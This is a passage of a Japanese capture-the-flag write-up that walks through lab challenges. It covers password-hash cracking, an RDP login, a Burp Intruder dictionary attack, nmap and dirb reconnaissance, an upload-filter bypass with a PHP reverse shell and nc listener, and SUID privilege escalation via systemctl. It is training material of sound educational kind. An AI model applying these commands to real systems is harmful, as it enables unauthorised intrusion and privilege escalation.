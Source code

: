 取得したハッシュを [CrackStation](https://crackstation.net/) で確認し、ハッシュの元になったパスワードが判明する。これにより、リモートデスクトップで侵入できる。

```bash
$ xfreerdp /u:Jon /v:10.*.*.* /p:alqfna22 /cert:ignore /sec:rdp
```

## Day 4: よくある脆弱性を使って怪しいショップで遊ぼう

Admin のパスワードを特定するために、辞書攻撃を行う。今回は rockyou.txt ではなく [SecLists](https://github.com/danielmiessler/SecLists) を使用した。

```bash
$ sudo apt install seclists
$ tree /usr/share/seclists | less
```

Burp Suite の Intruder 機能を使って辞書攻撃を実行した。401 を返していた API /rest/user/login を探し、そのリクエスト内の password を変数にして、API リクエストを繰り返し、パスワードの特定を行った。

## Day 5: Web フォームから侵入しよう

nmap によるポートスキャンでマシンの偵察を行った。

```bash
$ nmap -sV -Pn -oN nmap.txt -v 10.*.*.*
```

次に、FTP サーバーに接続を試みたが、anonymouns, パスワードなしでは侵入できなかった。

```bash
$ ftp 10.*.*.*
```

続いて、dirb を使ってファイルアップロードサイトの存在を確認した。

```bash
$ dirb http://10.*.*.*:3333 /usr/share/dirb/wordlists/small.txt
```

特定の拡張子だけアップロードできることが推定されるため、Burp Suite の Intruder を使って、拡張子を変数としてリクエストを繰り返し、phtml 形式が許可されていることが判明した。そこで、リバースシェルを利用して SSH アクセスを試みる。

```bash
$ cp /usr/share/webshells/php/php-reverse-shell.php .
$ mv php-reverse-shell.php php-reverse-shell.phtml
$ vim php-reverse-shell.phtml // 自分の IP アドレスとポート番号を指定
$ nc -lvnp 12345
```

nc コマンドで接続を待っている間に、ブラウザから phtml ファイルにアクセスすると、ターミナルで SSH が使用可能となった。

次に、SUID を利用した権限昇格を試みた。通常の実行ファイルは、実行者の権限で実行されるが、SUID が設定されている場合、所有者の権限で動作する。まずは以下のコマンドで SUID が設定されたファイルを捜索した。

```bash
$ find / -perm -u=s -type f 2>/dev/null
```

`systemctl` が容疑者候補に上がり、[GTFOBins](https://gtfobins.github.io/) から systemctl を利用した権限昇格方法を検索し、`$ cat /root/root.txt` を走らせた。
